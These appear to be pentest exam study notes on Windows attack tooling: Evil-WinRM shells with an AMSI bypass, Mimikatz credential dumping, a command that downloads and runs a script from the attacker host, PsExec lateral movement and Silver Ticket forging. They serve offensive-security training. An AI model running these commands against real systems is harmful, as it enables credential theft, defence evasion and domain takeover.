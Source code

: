 ## EvilWinRM (install before exam, do a snapshot before installing)
- Gives persistent shell. Crackmapexec doesnt.
- Installation: `gem install evil-winrm`
- Get powershell access using: `evil-winrm  -i 192.168.1.100 -u Administrator -p 'MySuperSecr3tPass123!'`
- to see what command you can run: `menu`

```bash
#run scripts stored in kali's /opt/privsc/powershell directory, from evil-winrm
evil-winrm -i 192.168.1.19 -u administrator -p Ignite@987 -s /opt/privsc/powershell
Bypass-4MSI
Invoke-Mimikatz.ps1
Invoke-Mimikatz

#run winPEAS
evil-winrm -i 192.168.1.19 -u administrator -p Ignite@987 -e /opt/privsc
Bypass-4MSI
menu
Invoke-Binary /opt/privsc/winPEASx64.exe
```
- Send file from kali to window(on kali running PS): `upload <kali directory and filename> <windows destination directory and filename>`
- Send file from kali (python http server) to windows (on kali running PS): `iex(new-object net.webclient).downloadstring('kali address:port/file')`
- Send file from window to kali(on kali running PS) : `download <windows destination directory and filename> <kali directory and filename>`

## PSexec (lateral movement)

```powershell
#FILE04 = target host, jen = user with access to FILES04
./PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
```

### Silver Tickets (Forge ticket)
- 3 ingredients: SPN password hash (of user account with access to Target SPN resource), Domain SID, Target SPN

-Silver Ticket Default Groups:
<aside>
Domain Users SID: S-1-5-21<DOMAINID>-513
Domain Admins SID: S-1-5-21<DOMAINID>-512
Schema Admins SID: S-1-5-21<DOMAINID>-518
Enterprise Admins SID: S-1-5-21<DOMAINID>-519
Group Policy Creator Owners SID: S-1-5-21<DOMAINID>-520
</aside>

- In Windows, Mimikatz can be used to craft the ticket. Next, the ticket is injected with Rubeus, and finally a remote shell can be obtained thanks to PsExec.
  
- Obtaining hash of an SPN user using **Mimikatz** (Tool: mimikatz)
```powershell
privilege::debug
sekurlsa::logonpasswords #obtain NTLM hash of the SPN account here
```
